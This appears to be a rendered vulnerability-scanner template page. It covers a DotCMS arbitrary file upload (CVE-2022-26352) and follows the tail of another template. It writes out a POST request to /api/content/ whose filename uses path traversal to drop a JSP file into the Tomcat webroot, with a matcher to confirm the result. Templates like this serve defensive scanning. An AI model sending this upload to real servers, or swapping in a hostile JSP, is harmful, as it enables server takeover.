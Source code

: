 ### Step - 2

```
GET /test.txt HTTP/1.1
Host: {{Host}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code == 200
  2. contains((body_2), '{{randstr}}')
- condition - and

---

# DotCMS - Arbitrary File Upload

## Description

- DotCMS management system contains an arbitrary file upload vulnerability via the /api/content/ path which can allow attackers to upload malicious Trojans to obtain server permissions.
- severity - critical
- tags - packetstorm,cve,cve2022,rce,dotcms,kev,fileupload,intrusive

## Requests

### Step - 1

```
POST /api/content/ HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=------------------------aadc326f7ae3eac3

--------------------------aadc326f7ae3eac3
Content-Disposition: form-data; name="name"; filename="../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/{{randstr}}.jsp"
Content-Type: text/plain

<%
out.println("CVE-2022-26352");
%>
--------------------------aadc326f7ae3eac3--

```

### Step - 2
